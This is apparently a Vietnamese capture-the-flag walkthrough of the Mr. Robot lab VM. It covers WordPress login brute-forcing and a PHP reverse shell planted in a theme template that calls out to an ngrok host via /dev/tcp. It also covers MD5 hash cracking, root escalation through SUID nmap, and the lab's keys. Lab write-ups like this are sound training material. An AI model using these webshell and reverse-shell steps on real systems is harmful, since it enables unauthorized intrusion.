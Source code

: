 # MrRobot

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled.png)

Sau khi cài đặt xong, do chưa biết địa chỉ IP nên bước đầu tiên là phải xác định IP bằng cách nmap với dải mạng đã biết là 192.168.113.0/24 port 80 để xác định IP của máy MrRobot là bao nhiêu.

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%201.png)

Sau khi có địa chỉ IP, truy cập trên browser

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%202.png)

Sử dụng dirsearch để scan các file và directory

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%203.png)

Đi qua lần lượt từng file và directory, khi truy cập `/robots.txt` ta sẽ được key 1

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%204.png)

Key 1: `073403c8a58a1f80d943455fb30724b9`

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%205.png)

Khi truy cập `/fsocity.dic` sẽ download 1 file, đó là một wordlist có thể được dùng cho lúc sau.

Sử dụng nuclei để scan các CVE

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%206.png)

Truy cập trang đăng nhập /wp-login. Thấy trang web không có cơ chế rate limit ⇒ Có thể bruteforce tài khoản mật khẩu. Thử sử dụng file `fsocity.dic` lấy được ở trên. Sau 1 lúc bruteforce, nhận thấy trang web bị lỗi user enum ⇒ Ta sẽ đi tìm username trước rồi đi tìm password để giảm số lượng request tránh mất thời gian.

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%207.png)

Với username là `elliot` ta tìm được password là: `ER28-0652`

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%208.png)

Brute force 1 lúc thì nhận thấy trong wordlist đó nó có nhiều từ trùng nhau :))) Nên để nhanh hơn, cần xóa bỏ những từ trùng nhau đó bằng nhiều cách ví dụ:

```bash
sort -u fsocity.dic | uniq > fsocity1.dic
```

Giảm được rất nhiều từ trùng lặp

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%209.png)

Sau khi brute force xong thì ta vào được trang chủ của wordpress version … . Lúc này sẽ đi kiếm những CVE liên quan đến version này vì nó khá thấp rồi. Nhưng vì mình đang là admin của wordpress này rồi nên sẽ trực tiếp thay đổi source của ứng dụng này để nó reverse shell về máy luôn. Thực hiện cách revershell theo các bước sau:

- Bước 1: Lắng nghe ở port 9999 và public port này ra bên ngoài bằng ngrok
    
    ```bash
    nc -nlvp 9999
    ngrok tcp 9999
    ```
    
    ![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2010.png)
    
    ![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2011.png)
    
- Bước 2: Truy cập chức năng chỉnh sửa theme trên browser: `Appearance` > `Editor` > Chọn 1 trang bất kì (ví dụ 404 Template)
    
    ![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2012.png)
    
- Bước 3: Xóa đoạn code cũ, thêm vào một đoạn như sau và chọn “Update File”
    
    ```bash
    <?php 
    system('bash -c "bash -i >& /dev/tcp/0.tcp.ap.ngrok.io/10392 0>&1"');
    ?>
    ```
    
    ![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2013.png)
    
    Trong đó:
    
    - [0.tcp.ap.ngrok.io](http://0.tcp.ap.ngrok.io) là host ngrok gen ra
    - 10392 là port ngrok gen ra
- Bước 4: Truy cập trang 404.php bằng cách `http://192.168.113.129/wp-admin/404.php` và quan sát thấy ứng dụng đã reverse shell về máy chúng ta
    
    ![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2014.png)
    
- Bước 5: Vì shell khi reverse về là 1 shell khá cùi, chúng ta cần tạo 1 TTY shell bằng nhiều cách tham khảo ở [đây](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)

Sau khi đã reverse shell xong chúng ta sẽ đi tìm secret thứ 2

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2015.png)

Tìm thấy file đó nhưng chưa có quyền đọc, chỉ có user robot mới đọc được. Ta đọc file `password.raw-md5` thì thấy đây có thể là chứa password của user robot

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2016.png)

Mang đoạn password kia đi tìm xem plaintext của nó là gì

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2017.png)

Password: `abcdefghijklmnopqrstuvwxyz`

Lúc này login vào robot và lấy được secret thứ 2

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2018.png)

Key 2: 822c73956184f694993bede3eb39f959

Mạnh dạn đoán secret 3 sẽ phải leo quyền lên root mới lấy được, leo quyền thì có 3 vector:

- Thứ nhất là `sudo right`
- Thứ hai là `setuid`
- Thứ ba là qua biến môi trường `PATH`

Trong trường hợp này ta sẽ đi theo hướng `setuid`, đầu tiên phải tìm được những file thực thi nào có khả năng nhất bằng cách `find / -perm -4000 2>/dev/null`. Câu lệnh này sẽ tìm tất cả những file được set SUID

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2019.png)

Quan sát thì thấy `nmap` là có khả năng cao nhất nên quyết định sẽ thử leo quyền bằng nmap trước. Có một trang web giúp chúng ta tìm những lệnh để leo quyền lên đó là [GTFOBins](https://gtfobins.github.io/). Lúc này search nmap là ra 1 loạt

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2020.png)

Chúng ta sẽ sử dụng đoạn này để khai thác vì nó ngắn nhất

```bash
nmap --interactive
nmap> !sh
```

Leo quyền lên root thành công thì giờ sẽ đọc secret thứ 3 nữa là xong:

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2021.png)

Đọc secret 3

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2022.png)

Key 3: 04787ddef27c3dee1ee161b21670b4e4

Vì bản Linux này có kernel khá thấp nên cũng có thể tìm cách leo quyền bằng các CVE khai thác kernel

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2023.png)

Về phần để reverse shell thì cũng có nhiều cách đó là dùng CVE, dùng metasploit,…